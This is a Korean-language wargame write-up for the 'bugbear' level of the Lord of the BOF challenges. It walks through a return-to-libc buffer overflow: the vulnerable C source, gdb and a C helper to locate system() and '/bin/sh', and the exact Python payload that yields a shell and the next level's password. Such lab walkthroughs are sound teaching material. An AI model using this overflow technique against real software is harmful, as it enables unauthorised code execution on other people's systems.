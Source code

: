 Darkknight -> Bugbear

소스코드
-----
```C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack betrayed you!!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);
}
```
argv[1][47]이 '\xbf'이면 안된다는 조건이 붙었습니다.<br>
스택이 당신을 배신했습니다!

주석부분에 적혀 있는 대로 저희는 RTL이라는 방식을 이용하여 공격하여야합니다.<br>
RTL은 보통 스택 보호 기법 중 NX bit (Non-excutable Stack)인 코드가 스텍에서 실행되지 않도록 하는 기법을 우회하기 위하여 사용하게 됩니다.

RTL 공격을 하기 위해서는 /bin/sh의 주소와 system 함수의 주소를 알아내어야 합니다. <br>

1. system 함수 주소알아내기<br>
간단하게 gdb 상에서 print system 명령어를 이용하여 알아낼 수 있습니다.(물론 gdb상에서 프로그램이 동작 중이어야합니다.)
```
(gdb) print system
Cannot access memory at address 0x40058ae0
```
2. /bin/sh의 주소 알아내기<br>
다음과 같은 간단한 C코드를 이용하여 알아낼 수 있습니다.
```c
#include <stdio.h>

int main(int argc, char **argv)
{

	long shell;

	shell = 0x40058ae0; 
    
	while (memcmp((void *)shell, "/bin/sh", 8))

	{

	shell++;

	}

	printf("\"/bin/sh\" is at 0x%x\n", shell);

	printf("print %s\n", shell);

	return 0
}
```
```
[darkknight@localhost temp]$ ./hack 
"/bin/sh" is at 0x400fbff9
print /bin/sh
```
이제 공격을 하도록 하겠습니다.<br>
ret 부분에 system 함수의 주소를 넣어 준 후 4Byte만큼의 더미 값 그 뒤에 /bin/sh의 주소를 넣어주면 됩니다.<br> 
더미 값이 들어가는 이유는 ebp-4를 리턴하고 ebp-8을 인자로 받기 때문입니다.


```
[darkknight@localhost temp]$ ./bugbear `python -c 'print "A"*44 + "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAɀAAAA
bash$
```
복사한 파일에 공격에 성공하였습니다.
Buffer[40] + SFP[4] + RET[4]
Dummy[40 + 4] + System[4] + Dummy[4] + /bin/sh[4]
```
Segmentation fault (core dumped)
[darkknight@localhost temp]$ cd ..
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44 + "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAɀAAAA
bash$ my-pass
euid = 513
new divide
```
마찬가지로 원본 파일에도 공격을 성공하였습니다.
